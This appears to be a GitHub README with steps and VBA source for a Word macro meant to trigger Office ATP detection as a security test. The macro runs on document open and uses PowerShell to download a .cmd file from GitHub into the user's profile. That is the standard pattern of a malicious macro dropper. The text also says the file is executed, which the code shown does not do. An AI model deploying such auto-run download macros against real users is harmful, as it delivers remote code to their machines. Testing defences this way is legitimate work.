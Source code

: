 # Trigger Office ATP using Word macro

1. Open ```%AppData%\Microsoft\Templates\Normal.dotm```
2. Open **Visual Basic Editor** with ```Alt+F11```
3. Double-click **ThisDocument** under **Project (Document1)** to open the macro editor
4. Paste in the example Macro below
5. At the top of Visual Basic Editor, select **Save Document1** and select type as **Word Macro-Enabled Document**
6. This should be sufficient to trigger Office ATP, but if you would like to test then you can double-click **.docm** - this will trigger a download from GitHub, execute as a batch file, and open a message box.

```
Private Sub Document_Open()

Dim com As String
Dim des As String
Dim path As String

com = "powershell -noexit -Command (Invoke-WebRequest 'https://raw.githubusercontent.com/milesgratz/Microsoft365Misc/master/TriggerOfficeATP_mkdir_example.cmd' -OutFile "
des = Environ("USERPROFILE")
path = com & des & "\\TriggerOfficeATP_mkdir_example.cmd)"

Shell ("powershell -noexit -Command " & path)
MsgBox "This document is running a macro to try to trigger Defender ATP... check your userprofile for a created file...."
End Sub
```

## References

https://emptydc.com/2019/08/02/what-does-office-atp-safe-attachments-actually-block/

## Credits
Largely ~~stolen~~ inspired by [Jan Geisbauer's example on emptydc.com](https://emptydc.com/2019/08/02/what-does-office-atp-safe-attachments-actually-block/) project.  
